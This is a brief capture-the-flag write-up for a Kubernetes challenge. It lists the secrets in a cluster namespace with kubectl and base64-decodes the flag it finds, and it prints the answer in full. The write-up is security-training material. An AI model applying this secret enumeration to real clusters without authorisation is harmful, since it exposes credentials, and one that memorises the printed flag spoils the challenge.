 ```yaml
---
tags:
  - Kubernetes
  - Secret
title: EKS Cluster Game
description: list all the secrets in the k8s cluster
reference: https://eksclustergames.com/challenge/1
---
```


## Challenge

Jumpstart your quest by **listing all the secrets in the cluster**. Can you spot the flag among them?

## Solution

### 1. get secret `flag`

```
root@wiz-eks-challenge:~# kubectl get secrets -n challenge1 -o yaml
apiVersion: v1
items:
- apiVersion: v1
  data:
    flag: d2l6X2Vrc19jaGFsbGVuZ2V7b21nX292ZXJfcHJpdmlsZWdlZF9zZWNyZXRfYWNjZXNzfQ==
  kind: Secret
  metadata:
    creationTimestamp: "2023-11-01T13:02:08Z"
    name: log-rotate
    namespace: challenge1
    resourceVersion: "890951"
    uid: 03f6372c-b728-4c5b-ad28-70d5af8d387c
  type: Opaque
kind: List
metadata:
  resourceVersion: ""
```

### 2. decode the `flag`

```
root@wiz-eks-challenge:~# echo d2l6X2Vrc19jaGFsbGVuZ2V7b21nX292ZXJfcHJpdmlsZWdlZF9zZWNyZXRfYWNjZXNzfQ== | base64 -d
wiz_eks_challenge{omg_over_privileged_secret_access}
```


